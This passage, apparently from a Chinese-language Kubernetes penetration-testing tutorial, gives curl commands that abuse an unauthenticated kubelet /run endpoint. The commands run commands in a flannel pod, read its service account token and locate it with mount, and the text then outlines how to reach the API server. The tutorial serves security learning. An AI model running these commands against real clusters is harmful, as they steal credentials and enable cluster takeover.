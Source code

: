 ```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

[![](assets/1698893355-9beb164180755f7c1f7468c5bc81c202.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170949-3ff2c61a-7316-1.png)  
如果token不在/var/run/secrets/kubernetes.io/serviceaccount/token，那么可以通过mount命令来查找

```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=mount"
```

[![](assets/1698893355-9766614fbddbae6845eb5e971261884d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171017-50ebfe0a-7316-1.png)  
Step 5：获得master访问权  
接下来可以尝试获得master(api server)的访问权限，默认情况下api server开放的端口为6443，所以可以通过扫描同个网段开放6443的主机来挨个尝试，除了这种方法还可以尝试执行env命令来查看是否有api server的地址或者其他敏感信息：

